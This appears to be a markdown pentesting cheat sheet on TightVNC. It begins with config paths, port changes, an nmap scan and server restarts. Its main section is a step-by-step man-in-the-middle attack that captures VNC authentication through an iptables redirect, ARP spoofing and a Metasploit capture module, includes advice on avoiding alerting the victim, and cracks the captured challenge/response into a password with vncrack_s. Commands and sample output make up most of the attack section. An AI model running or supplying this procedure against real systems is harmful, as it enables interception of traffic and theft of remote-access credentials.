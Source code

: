 # Tight VNC config files:
- `/etc/tightvncserver.conf`
- `/usr/bin/vncserver`

---

# changing default port:
in `/usr/bin/vncserver` @ line 226:
```
$vncPort = <DESIRED_PORT_NUMBER>;
```

---

# nmap VNC information script
```bash
nmap -p 5902 --script vnc-info <TARGET_IP>
```

---

# restarting VNC server is a unlike other services
## Step #1: find the running vnc processes
```bash
ps -ef | grep -i vnc
```
### sample output:
```
root        3187    2380  1 14:38 pts/2    00:00:00 Xtightvnc :2 -desktop X -auth /run/user/1000/.mutter-Xwaylandauth.G3AHP1 -geometry 1024x768 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5902 -fp /usr/share/fonts/X11/misc/,/usr/share/fonts/X11/Type1/,/usr/share/fonts/X11/75dpi/,/usr/share/fonts/X11/100dpi/ -co /etc/X11/rgb
root        3536    3141  0 14:38 pts/2    00:00:00 grep --color=auto -i vnc
```

## Step #2: In the previous output, note the number next to the "Xtighvnc" process --> `:2`

## Step #3: use the `vncserver` command with the `-kill` flag and the display number `:2`
```bash
vncserver -kill :2
```
### output:
```
vncserver -kill :2
Killing Xtightvnc process ID 3187
```

---

# VNC MitM: Authentication Capture
## Step #1: make sure ipv4 forwarding is enabled:
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Step #2: create `iptables` rule to forward traffic
```bash
iptables -t nat -A PREROUTING -p tcp -d <VNC_SERVER_IP> --dport <VNC_PORT> -j REDIRECT --to-ports <VNC_PORT>
```

## Step #3: start the metasploit VNC capture module
```
use auxiliary/server/capture/vnc
set SRVHOST <KALI_IP>
set SRVPORT <VNC_PORT>
run
```

## Step #4: start arp spoofing the VNC server using ettercap

## Step #5: wait for the client to authenticate and capture the challenge/response.
### Output:
```
[+] 20.20.20.130:49768 - Challenge: 00112233445566778899aabbccddeeff; Response: c8afaba5bf331b016ca6305c016e20cd
```

## Step #6: to prevent alerting the victim, stop the arp spoofing right after capture. because the capture server will stop actual authentication attempts.

## Step #7: delete the `iptables` rules
```bash
iptables -t nat -D PREROUTING -p tcp -d <VNC_SERVER_IP> --dport <VNC_PORT> -j REDIRECT --to-ports <VNC_PORT>
```

## Step #8: using `vncrack_s` tool (in our evilbins repository), crack the challenge and response to get the password
```bash
./vncrack_s -c 00112233445566778899aabbccddeeff -r c8afaba5bf331b016ca6305c016e20cd -w /usr/share/wordlists/rockyou.txt 
```
### Output:
```
VNCrack - by Phenoelit (http://www.phenoelit.de/)
$Revision: 1.17 $

>>>>>>>>>>>>>>>
Password: Abc123!!
>>>>>>>>>>>>>>>
```